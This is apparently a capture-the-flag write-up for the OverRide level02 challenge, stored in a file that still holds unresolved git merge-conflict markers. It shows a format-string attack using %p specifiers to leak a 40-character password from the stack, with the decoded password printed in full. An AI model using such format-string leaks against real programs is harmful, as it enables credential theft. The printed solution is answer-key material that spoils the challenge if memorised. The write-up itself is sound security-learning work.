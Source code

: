 <<<<<<< HEAD
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d

756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d

unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M

unPR47hH

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
=======
We get the binary out of the Vm using this cmd:

`scp -P 4242 level2@192.168.56.103:./level2 .binary/level2`

We can see line 44 in the source.c we can use a format string attack so let's find where on the stack our password id :
```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,
	--[ Password: *****************************************
	�,,%,*,*,�,%,,,c,,,,,,,,,,,,H,Q,X,s,M,,%,,,c,%,,,c, does not have access!
```
We can find some char starting at pos 22, and we know the password is 40 char long

```
level02@OverRide:~$ ./level02
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p
	--[ Password: 
	*****************************************
	0x756e505234376848 does not have access!
```
We can find the first 8 char from this so let's get the 32 next !

```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p %23$p %24$p %25$p %26$p
	--[ Password: 
	*****************************************
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```
Now we convert 
* 0x756e505234376848 => unPR47hH
* 0x45414a3561733951 => EAJ5as9Q
* 0x377a7143574e6758 => 7zqCWNgX
* 0x354a35686e475873 => 5J5hnGXs
* 0x48336750664b394d => H3gPfK9M

We just need to reverse them now and we get
`Hh74RPnu` `Q9sa5JAE` `XgNWCqz7` `sXGnh5J5` `M9KfPg3H`
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
>>>>>>> 655bebc034947e79de8b9192b7aa3c1fd12dbeb8
